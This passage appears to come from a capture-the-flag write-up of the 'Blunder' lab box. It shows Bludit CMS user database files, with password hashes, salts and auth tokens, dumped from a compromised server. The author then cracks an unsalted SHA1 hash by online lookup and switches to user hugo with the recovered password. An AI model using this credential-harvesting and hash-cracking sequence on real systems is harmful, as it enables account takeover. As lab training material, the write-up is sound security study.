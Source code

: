 ```
        "github": "",                         
        "gitlab": ""        
    },                                                                                                                
    "fergus": {
        "firstName": "",                            
        "lastName": "",   
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
As we can notice, in version 3.10.0a there is an (unsalted) hash for user 'hugo', we can find the same user in the system so, let's try to crack the password.  
Before doing any calculation we can simpy google the hash and see what we can find.  
As we google the hash we can find [on this site](https://sha1.gromweb.com/?hash=faca404fd5c0a31cf1897b823c695c85cffeb98d) a match that is: 'Password120' now let's try this for switching to user hugo:  
```
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su - hugo
Password:
hugo@blunder:~$
```
